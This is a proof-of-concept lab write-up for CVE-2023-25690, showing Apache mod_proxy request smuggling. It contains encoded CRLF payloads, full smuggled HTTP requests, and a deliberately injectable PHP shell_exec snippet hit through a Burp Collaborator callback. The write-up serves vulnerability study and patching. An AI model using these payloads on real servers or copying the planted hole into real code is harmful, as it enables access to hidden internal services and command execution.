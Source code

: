 - # CVE 2023 25690 - Proof of Concept
  | Base score | Confidentiality | Integrity impact | Availability impact |
  |---|---|---|---|
  | 9.8 | High | High | High |
	- ## Table of contents
		* [Advisory Description](#advisory-description)
		* [Vulnerable Apache Configuration Breakdown](#vulnerable-apache-configuration-breakdown)
		* [Data Flow](#data-flow)
		* [Lab Setup](#lab-setup)
		* [HTTP Request Splitting causing HTTP Request Smuggling on backend service](#http-request-splitting-causing-http-request-smuggling-on-backend-service)
		* [Identifying the CRLF Injection](#identifying-the-crlf-injection)
		* [Internal HTTP Request Smuggling via Header Injection](#internal-http-request-smuggling-via-header-injection)
		* [Impact](#impact)

	- ### Advisory Description
	  Some **mod_proxy configurations** on Apache HTTP Server versions **2.4.0** through **2.4.55** allow a **HTTP Request Smuggling attack**. Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using **variable substitution**. For example, something like:   
	  ```bash
	  RewriteEngine on 
	  RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P] 
	  ProxyPassReverse /here/ http://example.com:8080/
	  ```
	  Request splitting/smuggling could result in bypass of access controls in the proxy server, proxying unintended URLs to existing origin servers, and cache poisoning. Users are recommended to update to at least version 2.4.56 of Apache HTTP Server.  
	    
	  [https://ubuntu.com/security/CVE-2023-25690](https://ubuntu.com/security/CVE-2023-25690) <br>  
	  [https://security.snyk.io/vuln/SNYK-UBUNTU2210-APACHE2-3355688](https://security.snyk.io/vuln/SNYK-UBUNTU2210-APACHE2-3355688)  
	    
---
	- ### Vulnerable Apache Configuration Breakdown
	  With `RewriteEngine on` included in apache configuration enables the URL rewriting engine. URL rewriting is a technique that allows web servers to dynamically change the URLs requested by a client's browser to a different URL before serving the content. <br>  
	  For example let's say that we have the following URL structure for a online e-shop:  
	  ```bash
	  https://example-shop.com/categories/1
	  ```
	  Assuming the following RewriteRule directive in an Apache configuration file:  
	  ```bash
	  RewriteRule "^/categories/(.*)" "http://example-shop.com:8080/categories?id=$1"; [P] 
	  ```
	  When a user requests the URL `https://example-shop.com/categories/1`, the RewriteRule will match the URL and capture the value `1` using the regular expression `^/categories/(.*)`. The rule then rewrites the URL to `http://example-shop.com:8080/categories?id=1` by appending the captured value to the rewritten URL as a query parameter id.  
	    
	  <br>  
	    
	  Since the `[P]` flag exists in the rule, Apache will treat the rewritten URL as a proxy request and forward it to the target server at `http://example-shop.com:8080/categories` with the query parameter id set to `1`. The target server will then process the request and send the response back to Apache, which will forward it to the client.  
	    
	    
	  In summary, the RewriteRule directive with the `[P]` flag is used to rewrite URLs and proxy them to a different server. In this case, the rule matches URLs starting with `/categories/` and appends the captured value as a query parameter id to the rewritten URL. Apache then forwards the request to the target server, which processes the request and returns the response.  
	    
	  Finally regarding `ProxyPassReverse /categories/ http://example-shop.com:8080/` this line simply replaces the backend server's domain and path with the proxy server's domain and path, so that the client is able to correctly follow links and access content from the proxied backend server as if it were being served directly from the proxy server.  
	- ### Data Flow
	    
	  ![](assets/diagram.png)  
	    
---
	- ## Lab Setup
	  To simulate the vulnerabity in Apache we will use the **httpd version 2.4.55**. Additionally, the entire lab will be dockerized for improved ease of setup, configuration, and reproducibility.  
	  <br><br>  
	  The lab file structure will be the following:  
	    
	  ```bash
	  lab/
	  ├── backend
	  │   ├── Dockerfile
	  │   └── src
	  │       ├── categories.php
	  │       └── index.php
	  ├── docker-compose.yml
	  └── frontend
	    ├── Dockerfile
	    └── httpd.conf
	  ```
	    
	  The final **httpd.conf** configuration is structed like below:  
	  ```bash
	  ErrorLog "/usr/local/apache2/logs/error.log"
	  CustomLog "/usr/local/apache2/logs/access.log" common
	  
	  # Load necessary modules 
	  LoadModule rewrite_module modules/mod_rewrite.so
	  LoadModule proxy_module modules/mod_proxy.so
	  LoadModule proxy_http_module modules/mod_proxy_http.so
	  
	  <VirtualHost *:80>
	  
	    RewriteEngine on
	    RewriteRule "^/categories/(.*)" "http://192.168.10.100:8080/categories.php?id=$1" [P]
	    ProxyPassReverse "/categories/" "http://192.168.10.100:8080/"
	  
	  </VirtualHost>
	  ```
	  Use the `docker-compose.exe up --build` command to start the lab.  
	    
	    
		* **mod_rewrite** documentation: [https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html) <br>
		* **mod_proxy** documentation: [https://httpd.apache.org/docs/2.4/mod/mod_proxy.html](https://httpd.apache.org/docs/2.4/mod/mod_proxy.html)

	- ## HTTP Request Splitting causing HTTP Request Smuggling on backend service
	  In this section, I will explain how a CRLF injection can lead to internal HTTP Request Smuggling, enabling an attacker to gain unauthorized access to internal resources that would otherwise be inaccessible.  
	- ### Identifying the CRLF Injection
	  Based on the advisory description the httpd <=2.4.55 is vulnerable to HTTP Response Splitting also known as CRLF Injection. <br>  
	  The CRLF Injection occurs when:  
		* Data enters a web application through an untrusted source, most frequently an HTTP request
		* The data is included in an HTTP response header sent to a web user without being validated for malicious characters.  
  
which in our case can be confirmed passing the following CRLF prefix in URL:
		  ```
HTTP/1.1\r\nFoo: baarr\r\n\r\n
%20HTTP/1.1%0d%0aFoo:%20baarr
		  ```
By appending the above prefix to the URL, the resulting final request will be as follows:
		  ```bash
GET /categories/1%20HTTP/1.1%0d%0aFoo:%20baarr HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
		  ```
Following the request, the server will process the data and return a 200 response code indicating vulnebility to CRLF Injection.
		  ```bash
HTTP/1.1 200 OK
Date: Mon, 22 May 2023 02:05:28 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Content-Length: 21
Content-Type: text/html; charset=UTF-8

You category ID is: 1
		  ```
More information regarding HTTTP Request Splitting can be found here, [https://owasp.org/www-community/attacks/HTTP_Response_Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)

	- ### Internal HTTP Request Smuggling via Header Injection
	  Using the header injection we will perform the internal HTTP Request Smuggling.<br>  
	  Lets begin with the following prefix:  
	  ```bash
	  HTTP/1.1\r\nHost: localhost\r\n\r\nGET /SMUGGLED
	  %20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED
	  ```
	  and the following request  
	  ```bash
	  GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
	  Host: 192.168.1.103
	  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
	  ```
	  Applying the rewrite rule, the request undergoes a transformation into the following format:  
	  ```bash
	  GET /categories.php?id=1 HTTP/1.1
	  Host: localhost
	  
	  GET /SMUGGLED HTTP/1.1
	  Host: backend
	  ```
	  where the encoded URL is decoded into valid HTTP syntax causing the backend to treat the decoded data as second request.  
	  ![](assets/smuggled.png)  
	  <br>  
	  Suppose that our internal application has the following secret code:  
	  ```php
	  #Internal secret functionality
	  if(isset($_GET['secret'])){
	    $secret = $_GET['secret'];
	  
	    shell_exec('nslookup ' . $secret);
	  }
	  ```
	  with the following prefix we are able to send the second request to hidden functionallity:  
	  ```bash
	  HTTP/1.1\r\nHost: localhost\r\n\r\nGET /categories.php?secret=im8uzc5sbq7xasyxk5yhfc734uaky9.burpcollaborator.net
	  %20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php?secret=im8uzc5sbq7xasyxk5yhfc734uaky9.burpcollaborator.net
	  ```
	  ```bash
	  GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php%3fsecret%3dq0r2dkj0pyl5o0c5ydcptklbi2otci.burpcollaborator.net HTTP/1.1
	  Host: 192.168.1.103
	  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
	  ```
	  and retrieve the request on burp collaborator:  
	  ![](assets/request.png)  
	    
	  Patches:  
		* [https://github.com/apache/httpd/commit/8789f6bb926fa4c33b4231a8444340515c82bdff](https://github.com/apache/httpd/commit/8789f6bb926fa4c33b4231a8444340515c82bdff)
		* [https://github.com/apache/httpd/commit/8b93a6512f14f5f68887ddfe677e91233ed79fb0](https://github.com/apache/httpd/commit/8b93a6512f14f5f68887ddfe677e91233ed79fb0)

	- ## Impact
	  The impact of this vulnerability is that it allows attackers to target and access internal applications that are meant to be hidden by the reverse proxy, potentially leading to unauthorized access, data leakage, or further exploitation.
